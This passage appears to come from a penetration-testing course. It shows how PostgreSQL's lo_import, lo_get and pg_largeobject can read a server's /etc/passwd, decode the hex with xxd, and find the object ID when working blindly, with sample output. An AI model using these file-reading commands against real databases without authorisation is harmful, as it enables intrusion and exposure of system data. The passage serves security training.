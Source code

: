 
```sql
bluebird=# SELECT lo_import('/etc/passwd');
 lo_import 
-----------
     16513
(1 row)
```


Once the file is imported we should get an object ID. The file will be stored in the pg_largeobjects table as a hexstring. If the size of the file is larger than 2kb, the large object will be split up into pages each 2kb large (4096 characters when hex encoded). We can get the contents with lo_get(<object id>):



```sql
bluebird=# SELECT lo_get(16513);
<SNIP>\x726f6f743a783a303a303a726f6f743a2...<SNIP>
```


Alternatively, you can select data directly from pg_largeobject, but this requires specifying the page numbers as well:


```sql
bluebird=# SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
bluebird=# SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=1;
<SNIP>
```



Once we've obtained the hexstring, we can convert it back using xxd like this:
```bash

0xevilpayload@htb[/htb]$ echo 726f6f743<SNIP> | xxd -r -p
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nolog
<SNIP>
```


Unfortunately, it's not possible to specify an object ID when creating the large object, so it does make things harder if you are doing this blindly. One thing you could do is select all object IDs from the pg_largeobject table and figure out which one is yours:


```sql
bluebird=# SELECT DISTINCT loid FROM pg_largeobject;
 loid  
-------
 16515
(1 row)
```
